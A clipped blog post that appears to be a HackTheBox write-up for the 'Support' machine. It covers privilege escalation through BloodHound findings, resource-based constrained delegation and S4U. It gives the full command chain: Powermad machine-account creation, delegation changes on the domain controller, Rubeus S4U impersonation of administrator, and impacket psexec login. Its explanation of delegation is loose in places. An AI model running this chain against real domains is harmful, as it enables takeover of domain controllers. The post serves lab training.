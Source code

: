 ```yaml
---
title: "goosie's dump"
source: "https://volery.org/Blog/HackTheBox/Support/Support"
author:
published:
created: 2025-06-23
description:
tags:
  - "clippings"
---
```

## Privilege Escalation

So we have a shell, but what now? I started off running the usual `winPEAS` in the background and focusing on getting `BloodHound` up, since this is a "easy" rated domain controller. Knowing HTB this was where to look.

### BloodHound

We are a part of the `SHARED SUPPORT ACCOUNTS` group, which has the GenericAll privilege on the domain controller. According to BloodHound, this is a privilege escalation vector that may be abused. ![](https://volery.org/pics/htb-support/bh.png)

#### Resource-Based Constraint Delegation

Resource-Based Constraint Delegation is a feature in Active Directory that allows administrators to specify which users or groups are allowed to delegate their permissions to other users or groups. This can be useful in situations where a user needs to perform a task that requires permissions that they do not have, but a user with the necessary permissions trusts them to perform the task on their behalf. For example, an administrator may allow a group of IT technicians to delegate their permissions to reset user passwords, as long as the request is made by a member of the HR department.

#### S4UProxy

S4UProxy is a feature in Active Directory that allows a user to obtain a service ticket for a different user without knowing their password. This feature is typically used in situations where a service account needs to access a resource on behalf of a user, but the service account is not trusted to know the user's password. S4USelf works in a very similar way, allowing a user to obtain a ticket for itself. In a S4UProxy attack, an attacker exploits this feature to obtain a service ticket for a high-privileged account, such as an administrator account, without knowing the password for the account. The attacker can then use the service ticket to access resources and perform actions that are normally restricted to the high-privileged account.

### Chaining it together

First, we leverage [powermad](https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1) to create a new machine account using our `GenericAll` privileges on the domain.

```
Import-Module .\Powermad.ps1
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

Now we set the `PrincipalsAllowedToDelegateToAccount` to allow for `SERVICEA` to impersonate any user against our target `DC`

```
Set-ADComputer DC -PrincipalsAllowedToDelegateToAccount SERVICEA$
Get-ADComputer DC -Properties PrincipalsAllowedToDelegateToAccount
```

Next, we use `Rubeus` to get a hash of our password. In a second step, we perform a the actual `S4U` attack, which can be done with Rubeus as well. Please note that this step abuses intended functionality, and requires the above mentioned misconfigurations to be present. In this case we have `GenericAll` or any other write privileges on the target machine, which allowed us to misconfigure the rest ourselves.

```
.\Rubeus.exe hash /password:123456 /user:SERVICEA$ /domain:support.htb

.\rubeus.exe s4u /user:SERVICEA$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /domain:support.htb  /ptt
```

This is the basic attack, but more work is needed to login, as the ticket is injected into memory by `Rubeus` and usually intended to use immediately within a multi-machine environment. Grab the ticket and format it, then convert it to a usable ticket for impacket.

```
echo <ticket> | base64 -d > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache
export KRB5CCNAME=ticket.ccache
```

Now we can use impacket psexec to login:

```
psexec.py -k -no-pass support.htb/Administrator@dc.support.htb -dc-ip 10.10.11.174 -target-ip 10.10.11.174
```

## Closing Thoughts

- I enjoyed this machine very much, since it depended a lot on external LDAP enumeration which always tickles me out of pure principle.
- AD/LDAP are far from easy to get a handle on, even if the basics are understood. I think getting a good grasp on this and being able to navigate LDAP with confidence is a must in the age of Active Directory (and Azure).
- I used some different tools as well to explore further; and figured this would be the time to explore Apache Directory Studio a bit. I don't think it's more convenient for this purpose, but clicking through everything definitely further enhanced my confidence in my `ldapsearch` queries.
- The privilege escalation took a second to find through BloodHound, but same deal here. I feel that it is of immense importance to know what to click, since it is a powerful tool but only as powerful as the attacker itself.
- Huge thanks to the creator of this machine (0xdf) and HackTheBox for providing cool content, and Carlos Polop ([hacktricks](https://volery.org/Blog/HackTheBox/Support/book.hacktricks.xyz)) for saving my ass yet again:D